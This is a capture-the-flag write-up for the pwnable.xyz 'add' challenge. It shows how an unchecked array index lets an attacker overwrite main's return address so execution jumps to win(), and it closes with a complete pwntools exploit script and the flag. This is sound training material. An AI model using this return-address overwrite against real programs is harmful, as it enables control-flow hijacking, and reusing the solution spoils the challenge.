






# pwnable.xyz - add
Link to binary: https://pwnable.xyz/redisfiles/challenge_23.gz

Description: *We did some subtraction, now let's do some addition.*
 
## binary
Running the `file` command on the binary, reveals that it's a **64-bit ELF**.



`checksec` shows that PIE protection is disabled for this binary.


## ./challenge
Running the binary prints an `Input:` prompt which seems to expect numbers as input. Let's decompile with **IDA** and take a better look.

## IDA
### main()


The program reads 3 long integers from the user in the format of "%ld %ld %ld" where the third value (**v6**) is used as an **index to the buffer** v7[12] and the first 2 values are added and assigned to v7[v6], as we can see in *line 19* of the decompiled code.

There is also a **win()** function available in the binary which prints the flag once called, so we must somehow manage to call it. The absence of **PIE protection** is a hint of how we should proceed here.

## vulnerability
The issue here lies in the code mentioned above `v7[v6] = v4 + v5` which allows for **arbitrary writes**, since there are **no checks** in place for the value of the v6 variable.

## attack plan
Since we can do arbitrary writes through v7, we only need to locate and **overwrite** the return address of `main()` with the address of `win()` and then just **return from main**.

## debugging
Let's disassemble main() first and locate the vulnerable code.


Here we control both **rax** and **rdx**. **rax** contains the third input value and **rdx** contains the sum of the first two input values that will be written at the address pointed by `rbp + rax * 8 - 0x60`. The address right after **rbp** should be a pointer to the return address, but let's make sure.

Continue the execution up to that instruction and check what the stack looks like:



And to see the stack:



We can see that rbp contains the address **0x7fffffffd050** and the next address **0x7fffffffd058** indeed points to the return address of **main()** which is **__libc_start_call_main()**. So, all we have to do basically is to specify a value for rax such that `rbp + rax * 8 - 0x60` will be equal to `rbp + 8`, which is true when **rax** is equal to **13**. We figured **where** to write. As for **what**, **rdx** should contain the address of `win()`. Since rdx contains the sum of the first two input values we can just specify `win_address + 0`. win() will always be located at the same address since PIE is **disabled**.

## exploit
```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *main+116
'''

IP = "svc.pwnable.xyz"
PORT = 30002

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    win = 0x400822 # 4196386
    
    # Overwrite rip
    io.sendlineafter("Input:", "4196386 0 13")
    
    # Return from main
    io.sendlineafter("Input:", "\0")

    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

Run on the server and we get the flag:
`FLAG{easy_00b_write}`